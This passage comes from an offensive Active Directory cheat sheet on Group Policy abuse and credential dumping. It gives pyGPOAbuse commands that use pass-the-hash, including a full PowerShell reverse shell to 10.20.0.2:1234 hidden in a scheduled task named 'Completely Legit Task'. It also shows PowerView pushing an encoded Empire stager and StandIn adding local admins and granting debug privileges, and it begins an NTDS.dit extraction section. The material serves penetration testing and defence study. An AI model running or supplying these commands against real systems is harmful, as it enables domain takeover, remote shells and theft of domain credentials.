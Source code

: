 ```powershell
$ git clone https://github.com/Hackndo/pyGPOAbuse

# Add john user to local administrators group (Password: H4x00r123..)
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

# Reverse shell example
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
```

### Abuse GPO with PowerView

```powershell
# Enumerate GPO
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

# New-GPOImmediateTask to push an Empire stager out to machines via VulnGPO
New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
```

### Abuse GPO with StandIn

```powershell
# Add a local administrator
StandIn.exe --gpo --filter Shards --localadmin user002

# Set custom right to a user
StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"

# Execute a custom command
StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"
```

## Dumping AD Domain Credentials

You will need the following files to extract the ntds : 
- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.
- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.
